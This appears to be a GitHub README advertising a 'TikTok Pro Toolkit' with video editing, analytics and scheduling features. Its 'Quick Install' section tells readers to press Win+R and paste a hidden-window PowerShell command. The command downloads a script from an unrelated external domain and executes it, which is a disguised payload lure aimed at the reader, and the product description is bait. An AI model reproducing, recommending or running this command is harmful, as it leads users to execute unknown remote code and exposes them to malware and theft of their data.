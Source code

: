 # TikTok Pro Toolkit

## 📖 Description
**TikTok Pro Toolkit** is a powerful suite of tools designed for TikTok users looking to enhance the quality of their videos, increase follower count, and boost their popularity on the platform. This software includes video editing features, analytics, content strategy support, and much more.

## ⚙️ Key Features

### 1. 🎥 Video Editor
An intuitive video editor with capabilities for cutting, merging, and adding effects. Users can add text, stickers, and music from a vast library, as well as apply filters to enhance visual appeal.

### 2. 📊 Performance Analytics
Gain access to in-depth analytics for your videos: views, engagement, likes, and comments. This helps you understand which types of content are most popular among your audience and what to focus on in the future.

### 3. 🌟 Content Ideas
Our content idea generation feature will suggest trending topics and themes based on an analysis of popular content in your niche. You won’t have to spend long thinking about the next idea—just pick what’s trending!

### 4. 📅 Publication Scheduler
A scheduling tool that allows you to pre-plan and publish your videos. This helps you maintain a consistent posting schedule and not miss out on important moments.

### 5. 🤝 Community and Support
Connect with a community of fellow TikTok creators. Sharing experiences, tips, and support will help you grow and develop on the platform. You will also gain access to exclusive webinars and educational materials on content creation.

## 🚀 Benefits of Using TikTok Pro Toolkit
- Simplifies the process of editing and creating content.
- Provides valuable analytics for improving your videos.
- Helps find timely content ideas that are currently trending.
- Allows for planning of posts for more effective work.
- Brings together content creators, creating a supportive community.

## 🎯 Conclusion
**TikTok Pro Toolkit** is the perfect solution for any TikTok user who wants to improve the quality of their videos and increase their popularity on the platform. Use all the advantages of modern tools and ideas to create unique and engaging content!

## 🛠️ Installation
To get started, clone the repository and follow the instructions in the installation guide.
## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

# Follow additional setup instructions here
